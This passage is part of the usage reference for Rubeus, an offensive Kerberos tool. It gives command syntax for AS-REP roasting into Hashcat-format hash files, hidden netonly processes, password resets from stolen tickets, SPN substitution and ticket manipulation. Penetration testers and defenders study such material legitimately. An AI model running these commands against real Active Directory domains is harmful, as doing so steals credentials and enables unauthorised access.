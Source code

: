         Perform AS-REP "roasting" for any users without preauth:
            Rubeus.exe asreproast [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/des] [/nowrap]

        Perform AS-REP "roasting" for any users without preauth, outputting Hashcat format to a file:
            Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/des]

        Perform AS-REP "roasting" for any users without preauth using alternate credentials:
            Rubeus.exe asreproast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU,..."] [/ldaps] [/des] [/nowrap]


     Miscellaneous:

        Create a hidden program (unless /show is passed) with random /netonly credentials, displaying the PID and LUID:
            Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" [/show] [/ticket:BASE64 | /ticket:FILE.KIRBI]

        Reset a user's password from a supplied TGT (AoratoPw):
            Rubeus.exe changepw </ticket:BASE64 | /ticket:FILE.KIRBI> /new:PASSWORD [/dc:DOMAIN_CONTROLLER] [/targetuser:DOMAIN\USERNAME]

        Calculate rc4_hmac, aes128_cts_hmac_sha1, aes256_cts_hmac_sha1, and des_cbc_md5 hashes:
            Rubeus.exe hash /password:X [/user:USER] [/domain:DOMAIN]

        Substitute an sname or SPN into an existing service ticket:
            Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:ldap [/srealm:DOMAIN] [/ptt] [/luid] [/nowrap]
            Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:cifs/computer.domain.com [/srealm:DOMAIN] [/ptt] [/luid] [/nowrap]

        Display the current user's LUID:
            Rubeus.exe currentluid

        Display information about the (current) or (target) logon session, default all readable:
            Rubeus.exe logonsession [/current] [/luid:X]

        The "/consoleoutfile:C:\FILE.txt" argument redirects all console output to the file specified.

        The "/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function.

        The "/debug" flag outputs ASN.1 debugging information.
		
        Convert an AS-REP and a key to a Kirbi:
            Rubeus.exe asrep2kirbi /asrep:<BASE64 | FILEPATH> </key:BASE64 | /keyhex:HEXSTRING> [/enctype:DES|RC4|AES128|AES256] [/ptt] [/luid:X] [/nowrap]

        Insert new DES session key into a Kirbi:
            Rubeus.exe kirbi /kirbi:<BASE64 | FILEPATH> /sessionkey:SESSIONKEY /sessionetype:DES|RC4|AES128|AES256 [/ptt] [/luid:X] [outfile:FILENAME] [/nowrap]


     NOTE: Base64 ticket blobs can be decoded with :

        [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("aa..."))


### Opsec Notes
